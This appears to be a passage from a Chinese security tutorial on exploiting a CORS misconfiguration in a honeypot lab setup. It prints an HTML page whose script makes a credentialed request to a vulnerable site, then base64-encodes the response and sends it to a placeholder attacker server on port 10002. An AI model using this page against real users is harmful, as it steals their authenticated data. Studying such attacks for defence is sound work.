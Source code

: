 [![](assets/1699492303-10bf254d9b263aef2d99df9eb7838a54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108112235-0fea9d5a-7de6-1.png)  
这里要特别注意'有CORS漏洞的网站'写的是127.0.0.1是因为蜜罐是挟持访问者去访问而不是kali自己去访问，并且我们已经限制了kali无法访问到CORS漏洞的网站

```plain
<!DOCTYPE html>
<html>
<head>
    <title>CORS TEST</title>
</head>
<body>
    <div id='output'></div>
    <script type="text/javascript">
            var req = new XMLHttpRequest(); 
            req.onload = reqListener; 
            req.open('get','有CORS漏洞的网站',true); 
            //req.setRequestHeader("Content-Type","application/x-www-form-urlencoded;"); 
            req.withCredentials = true;
            req.send();
            function reqListener() {
                new Image().src="http://蜜罐服务器IP:10002/" + window.btoa(unescape(encodeURIComponent(JSON.stringify(req.responseText))))  // 要接收敏感信息的攻击机监听端口
            };
    </script>
</body>
</html>
```
